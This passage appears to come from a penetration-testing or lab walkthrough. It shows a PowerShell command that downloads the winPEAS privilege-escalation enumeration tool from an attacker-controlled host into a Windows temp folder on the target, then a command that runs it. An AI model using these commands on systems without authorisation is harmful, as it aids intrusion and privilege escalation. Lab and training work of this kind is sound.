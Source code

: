 Next step is to transfer a winPEAS script to automate our Privilege Escalation Enumeration and then run the script.

Command to transfer the script from our attack machine to our target machine:
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/winPEASx64.exe', 'C:\\Windows\temp\winPEASx64.exe')"
```
Command to execute the script:
```powershell
.\winPEASx64.exe
```

![](attachments/20230913141953.png)
